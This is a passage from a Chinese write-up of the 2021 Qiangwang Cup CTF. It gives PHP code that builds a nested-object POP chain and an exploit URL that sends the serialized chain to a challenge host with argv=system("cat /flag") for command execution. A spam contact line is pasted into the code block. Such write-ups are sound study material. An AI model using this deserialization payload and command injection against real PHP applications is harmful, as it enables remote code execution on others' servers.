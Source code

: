 ```
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp->Wqcdf7d = new be3fZl;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp->Wqcdf7d->NaHb7Ac = new x9wgH7;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp->Wqcdf7d->NaHb7Ac->IBILkhN = new Upele5;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp->Wqcdf7d->NaHb7Ac->IBILkhN->cl73VwG = new uQhKsL;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp->Wqcdf7d->NaHb7Ac->IBILkhN->cl73VwG->RwqayHu = new G6QyEc;
$o->IG2X7eS->LTo0wOs->WU6aUWm->mGpVYwd->q6VMPac->XlZSk2f->qd1Gk6X->z2qMn5H->BmsS1eX->uXVxFLL->TdVPKPS->k6WTa5m->PmYsubO->c449DBi->lgNpoOl->OkOSSwp->Wqcdf7d->NaHb7Ac->IBILkhN->cl73VwG->RwqayHu->Ew9nqoI = new BmAQQY;

+WX:machinegunjoe666免费获取资料

echo serialize($o); 
```

### **Exp：**

```
http://eci-2zeir9lncwqmfgk2txz6.cloudeci1.ichunqiu.com/?pop=O:6:"cdKBgX":1:
{s:7:"IG2X7eS";O:6:"guAeB0":1:{s:7:"LTo0wOs";O:6:"MZ2dMV":1:{s:7:"WU6aUWm";O:6:"nXKQYP":1:{s:7:"mGpVYwd";O:6:"r6lSwy":1:{s:7:"q6VMPac";O:6:"UW5vkV":1:{s:7:"XlZSk2f";O:6:"DqoC5G":1:{s:7:"qd1Gk6X";O:6:"TBFTL7":1:{s:7:"z2qMn5H";O:6:"qoEd8u":1:{s:7:"BmsS1eX";O:6:"fFEGgM":1:{s:7:"uXVxFLL";O:6:"rn4PNR":1:{s:7:"TdVPKPS";O:6:"pRM5G8":1:{s:7:"k6WTa5m";O:6:"Bwn3ZW":1:{s:7:"PmYsubO";O:6:"saCGME":1:{s:7:"c449DBi";O:6:"ubPVyV":1:{s:7:"lgNpoOl";O:6:"b8WIcp":1:{s:7:"OkOSSwp";O:6:"q4IoOD":1:{s:7:"Wqcdf7d";O:6:"be3fZl":1:{s:7:"NaHb7Ac";O:6:"x9wgH7":1:{s:7:"IBILkhN";O:6:"Upele5":1:{s:7:"cl73VwG";O:6:"uQhKsL":1:{s:7:"RwqayHu";O:6:"G6QyEc":1:{s:7:"Ew9nqoI";O:6:"BmAQQY":1:{s:7:"UFAlT9K";N;}}}}}}}}}}}}}}}}}}}}}}}&argv=system("cat /flag");// 
```

![2021第五届强网杯全国网络安全挑战赛线上赛 Write-Up](img/ec1f737562c4d6ce5bd7270d96a409df.png)

## **[强网先锋]赌徒**
